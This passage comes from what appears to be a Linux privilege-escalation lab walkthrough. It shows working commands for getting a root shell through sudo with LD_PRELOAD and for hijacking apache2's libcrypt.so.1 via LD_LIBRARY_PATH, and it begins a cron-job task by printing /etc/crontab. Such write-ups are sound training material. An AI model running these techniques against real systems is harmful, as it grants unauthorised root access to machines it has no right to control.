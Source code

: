 
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c```


Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:


```sudo LD_PRELOAD=/tmp/preload.so program-name-here```


A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.



Run ldd against the apache2 program file to see which shared libraries are used by the program:

```console
user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fffef3ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007fb4bfb31000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007fb4bf90d000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007fb4bf6d3000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007fb4bf4b7000)
        libc.so.6 => /lib/libc.so.6 (0x00007fb4bf14b000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007fb4bef46000)
        librt.so.1 => /lib/librt.so.1 (0x00007fb4bed3e000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007fb4beb07000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007fb4be902000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007fb4be6da000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fb4bffee000)
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located [here](library_path.c)


```gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c```


Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):


```sudo LD_LIBRARY_PATH=/tmp apache2```


# Task 8 : Cron Jobs - file permissions
```console
user@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```